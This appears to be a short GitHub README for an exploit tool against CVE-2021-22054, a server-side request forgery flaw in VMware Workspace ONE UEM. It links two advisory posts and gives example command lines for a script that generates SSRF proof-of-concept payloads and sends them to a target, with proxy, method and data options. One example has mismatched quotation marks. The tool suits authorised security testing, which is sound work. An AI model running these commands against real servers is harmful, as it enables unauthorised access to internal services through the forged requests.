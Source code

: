 # CVE-2021-22054
Generate SSRF payloads

#### References
https://blog.assetnote.io/2022/04/27/advisory-vmware-workspace-one-uem/

https://blog.assetnote.io/2022/04/27/vmware-workspace-one-uem-ssrf/

#### Examples
```bash

# generate POC
python3 ssrf.py --url https://target.com --url https://example.com --airwatch
python3 ssrf.py --url https://target.com --url https://example.com

# generate PPOC and send request
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --proxy http://127.0.0.1:8080
python3 ssrf.py --url https://target.com --url https://example.com --airwatch --request --method POST --data '{"a":1}' -H 'Content-Type: application/json" --debug-headers
```

![image](https://user-images.githubusercontent.com/17793927/171933588-1b8d92f4-c751-40ca-a6bc-ad2102022bcf.png)

![image](https://user-images.githubusercontent.com/17793927/171933638-a0be0782-32cc-41db-b892-b49a9adcd574.png)
